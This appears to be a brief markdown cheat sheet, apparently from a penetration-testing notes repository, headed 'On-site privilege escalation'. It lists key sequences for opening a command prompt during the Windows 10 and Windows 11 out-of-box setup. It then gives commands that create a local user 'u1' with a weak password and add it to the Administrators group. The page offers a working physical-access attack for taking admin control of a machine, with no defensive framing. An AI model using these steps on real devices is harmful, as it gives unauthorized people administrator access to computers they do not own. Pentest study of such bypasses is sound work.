

# On-site privilege escalation

## Summary

<!---
[mermaid.live](https://mermaid.live/edit#pako:eNqNk02P2jAQhv-KZWkvXYLyBRt86IGFnmhZgdpDyR5MPIBLYiPHyUIR_32NDUq2H1JyyXjmmdczycwZZ5IBJrjUVMOE062ihVeHqUDmYVxBprkUaLZIhfM9PKAXaiDQoErnGnM9k9ke1LPR-sHpWMm3EhRpAsjoyBrUCe3hhGpOUQn5xjNQzTNwKgtYS6m_Uc1rILcT4gK9cbGYOmQmKZuXBM0Mgr4vxyamd2hHsz0XW6SlzMs7mNF8bPxMymsdN8vystJoOlkgZjqwzbmUuVhyDS-K19MyI-boleaMDsbBc9gCgtJo0lbCfDw1XKU9ufHW8ojgeADFQVwbcoj9qB-V0dmF_v68d29jrT69Is_7fLtpxUXJGajXBrgGLPFHv6vljm_045fA7wKvcy4YymRRUPPm4pcrqkvqs1b54-2yqGuCZxO8SYv3vMb-zzRZufaMdMtwI9OwbYV_Vuj6b9XmFLqx7T4-wDbd_E8XvlwHBPdwAaqgnJn1s1ORYr2DAlJMjMlgQ6tcpzgVF4PSSsvlSWSYaFVBD1cH1iwsJhual8Z7oOKnlMUdAsa1VF_dhttFtwgmZ3zEJAgH_XDoh4PEj55GURT38AmTwVN_6PtxMgiTOPJHYRxfevi3FfX7SRhGwWiYDOMgTIIgurwDMe9SxQ)
-->



## Option 1
SHIFT+F10

## Option 2 
CTRL+SHIFT+ESC
SHIFT+F10

## Option 3

### Bypass OOBE in Windows 10:
```
CTRL+SHIFT+ESC -> ALT/WIN+TAB -> WIN+R -> cmd.exe -> SHIFT+ENTER -> net user u1 u1 /add
net localgroup Administrators u1 /add
```

### Bypass OOBE in Windows 11:
```
CTRL+SHIFT+ESC -> ALT+N -> net user u1 u1 /add -> TAB -> SPACE -> ENTER
CTRL+SHIFT+ESC -> ALT+N -> net localgroup Administrators u1 /add -> TAB -> SPACE -> ENTER
```
